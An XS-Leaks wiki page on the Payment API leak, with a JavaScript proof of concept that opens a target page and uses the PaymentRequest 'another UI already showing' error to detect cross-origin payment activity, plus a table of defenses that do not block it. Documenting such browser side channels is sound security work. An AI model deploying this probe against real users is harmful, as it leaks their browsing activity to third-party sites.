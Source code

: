 +++
title = "Payment API leaks"
description = ""
category = "Attack"
abuse = []
defenses = []
menu = "main"
weight = 2
+++

## Detecting usage of Payment API
Because only one PaymentRequest UI is allowed to be visable the blocking can be detected. [^demo]
```javascript
const applePayMethod = {
    supportedMethods: "https://apple.com/apple-pay",
    data: {
        version: 3,
        merchantIdentifier: "merchant.com.example",
        countryCode: "US",
        merchantCapabilities: ["supports3DS"],
        supportedNetworks: ["visa"],
    },
}

const methods = [{supportedMethods: "basic-card"}, applePayMethod];
const details = {
    total: {
        label: "Total",
        amount: {
            currency: "USD",
            value: "1.00",
        },
    },
}

const sleep = (ms) => {
    return new Promise(resolve => setTimeout(resolve, ms));
}

async function paymentsUsage(url) {
    return new Promise(async (r) =>  {
        if (!window.PaymentRequest){
            return r('PaymentRequest not supported.');
        }
        let w = open(url);
        await sleep(2000);
        let request = new PaymentRequest(methods, details);
        request.show().catch((err) => {
                if(err.message == "Another PaymentRequest UI is already showing in a different tab or window.")
                    return r(1);
                else{
                    return r(0);
                }
            }
        )
        request.abort();
    });
    
}
```

## Defense

| [SameSite Cookies (Lax)]({{< ref "/docs/defenses/opt-in/same-site-cookies.md" >}}) | [COOP]({{< ref "/docs/defenses/opt-in/coop.md" >}}) | [Framing Protections]({{< ref "/docs/defenses/opt-in/xfo.md" >}}) |                                          [Isolation Policies]({{< ref "/docs/defenses/isolation-policies" >}})                                           |
| :--------------------------------------------------------------------------------: | :-------------------------------------------------: | :---------------------------------------------------------------: | :------------------------------------------------------------------------------------------------------------------------------------------------------: |
|                                         ❌                                         |                         ❌                          |                                ❌                                 | [RIP]({{< ref "/docs/defenses/isolation-policies/resource-isolation" >}}) 🔗 [NIP]({{< ref "/docs/defenses/isolation-policies/navigation-isolation" >}}) |
## References

[^demo]: Detect if another tab is using the Payment API, [link](https://xsinator.com/testing.html#Payment%20API%20Leak)
